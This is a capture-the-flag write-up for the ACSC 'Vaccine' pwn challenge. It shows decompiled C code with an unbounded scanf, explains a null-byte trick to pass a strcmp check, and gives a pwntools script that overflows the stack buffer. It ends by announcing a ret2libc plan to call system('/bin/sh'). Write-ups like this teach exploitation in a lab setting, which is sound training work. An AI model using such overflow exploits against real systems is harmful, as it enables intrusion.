



### Ret2libc with unknown libc
#### ACSC Pwn Vaccine challenge

Showing how a vulnerable call to scanf can be used to overflow the stack.
 <!--more-->

This was the first pwn challenge of the Asia Cyber Security Challenge. The challenge files provided were a dockerfile, some server scripts and the ELF executable.

{}

When running the executable it asks us for a vaccine and rejects our response.


The next step is to open it in ghidra. The only intersting function is main, and after renaming some variables it looks like this:
```c
undefined8 main(void)

{
  int check;
  size_t input_length;
  ulong iterator;
  char secret [112];
  char input [112];
  char rna [104];
  FILE *fd_secret;
  FILE *fd_rna;
  int i;

  fd_rna = fopen("RNA.txt","r");
  fgets(rna,100,fd_rna);
  printf("Give me vaccine: ");
  fflush(stdout);
  __isoc99_scanf(&DAT_00402024,input);
  i = 0;
  while( true ) {
    iterator = (ulong)i;
    input_length = strlen(input);
    if (input_length <= iterator) {
      check = strcmp(rna,input);
      if (check == 0) {
        puts("Congrats! You give the correct vaccine!");
        fd_secret = fopen("secret.txt","r");
        fgets(secret,100,fd_secret);
        printf("Here is your reward: %s\n",secret);
        return 0;
      }
      puts("Oops.. Try again later");
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
    if ((((input[i] != 'A') && (input[i] != 'C')) && (input[i] != 'G')) && (input[i] != 'T')) break;
    i = i + 1;
  }
  puts("Only DNA codes allowed!");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

The disassembly is a bit weird but it basically takes input with scanf, checks that the input only contains the letters A, C, G and T. There is no immediate obvious format string or buffer overflow vulnerability however when we double click the first argument to scanf we find this:



Since there is no size argument or number between % and s (like %20s), this allows us to overflow as easily as if it was using gets. Our plan is now to overflow the return pointer of main. We can see that the program only returns inside the inner if, and exits everywhere else, so we need to pass the strcmp and overflow at the same time. 

Fortunately, strcmp stops comparing at 0 bytes so we can completely control what it compares. If we want to compare "AAAA" with "AAAA" we would send 4 As, followed by a null byte followed by a lot of As. The exact number should be 112-4-1+4 = 111 As. This is because the input buffer is 112, we have already sent 4 As and the nullbytes and we want to overflow 4 bytes into the next buffer, which is the rna buffer. We try sending the following code locally to confirm our math.

```py
#!/usr/bin/env python3
from pwn import *

p = process("./vaccine")

# p = remote("vaccine.chal.ctf.acsc.asia", 1337)

get_to_ret = b"A"*4 + b"\x00" + b"A"*111

p.recvuntil(b"vaccine:")
p.sendline(get_to_ret)
p.interactive()
```



Our math is correct! However, we do not have a flag. As we can tell from the disassembly, reaching the congratulations statement only tells us the secret, not the flag. If we run it against the server it tells us "your flag is in another castle". It is clear that the reward for passing the checks is not a flag but the return statement, and we are supposed to return to libc and call system("bin/sh").
